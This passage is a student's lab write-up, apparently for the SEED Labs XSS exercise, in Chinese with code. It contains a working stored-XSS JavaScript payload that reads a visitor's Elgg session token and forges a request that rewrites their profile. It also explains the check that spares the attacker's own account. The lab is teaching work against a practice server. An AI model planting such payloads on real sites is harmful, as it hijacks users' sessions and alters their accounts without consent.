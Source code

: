 ```html
<script type="text/javascript">
  window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var description="&description=<b>Samy is my hero<\/b>"; //FILL IN
  //Construct the content of your url.
  var content=token + ts + description + guid + userName; //FILL IN
  var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
  //Create and send Ajax request to modify profile
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("POST", sendurl, true);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  Ajax.send(content);
}
</script>
```

修改完毕保存后，刷新页面，发现 Samy 自己的个人资料也变为了 `Samy is my hero`，说明攻击是成功的，但我们并不想让自己也成为受害者，所以需要修改一下代码，判断只有当访问者不是 Samy 自己时才发送请求。添加如下判断

```html
if (elgg.session.user.guid!=59){
  ...
}
```

登录 Alice 的账号，访问 Samy 的个人资料页面，可以看到 Alice 的个人资料已经被修改了：

![](assets/2023-09-06-09-43-04.png)

问题：为什么要添加 `if (elgg.session.user.guid!=59){...}` ？去掉后有什么影响？

这个判断的作用是排除掉 Samy 自己，因为如果不这样做的话，当 Samy 访问自己的个人资料页面时，也会发送修改请求，从而修改自己的个人资料，About me 就从从 XSS 攻击代码变为了一行纯文本。在前文的实验中，已经验证了如果不添加这个判断，确实会修改掉 Samy 自己的个人资料。
